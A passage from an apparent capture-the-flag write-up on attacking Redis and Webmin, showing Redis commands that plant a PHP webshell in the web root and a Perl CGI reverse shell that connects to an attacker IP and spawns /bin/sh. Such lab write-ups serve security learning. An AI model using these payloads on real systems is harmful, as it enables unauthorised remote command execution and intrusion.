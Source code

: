 But it does not work? There seems to be an issue with the `MODULE` command:

![redis2](./postman/redis2.png)

Not sure what the issue is here... There are other methods to try. If the path of the webserver was known, then it could be possible to change the database location, filename, and content to make a webshell like the following:

```
CONFIG SET dir /var/www/html/
CONFIG SET dbfilename bubba.php
SET PAYLOAD '<?php echo shell_exec($_REQUEST["c"]); ?>'
SAVE
```

But searching for this info seems to show that Webmin is not installed in a standard location and depends on PerlCGI scripts like the following script and not PHP...

- https://osdn.net/projects/sfnet_webadmin/downloads/webmin/1.910/webmin-1.910.tar.gz/
- https://www.webmin.com/deb.html
- https://www.webmin.com/faq.html

```perl
#!/usr/bin/perl -w
if (!fork()) {
  use Socket;
  $i = "10.10.14.27";
  $p = 6969;
  socket(S, PF_INET, SOCK_STREAM, getprotobyname("tcp"));
  if (connect(S,sockaddr_in($p, inet_aton($i)))) {
   open(STDIN, ">&S");
   open(STDOUT, ">&S");
   open(STDERR, ">&S");
   exec("/bin/sh -i");
  }
}
print <<'END';
Connection: close
Content-type: text/html

END
```
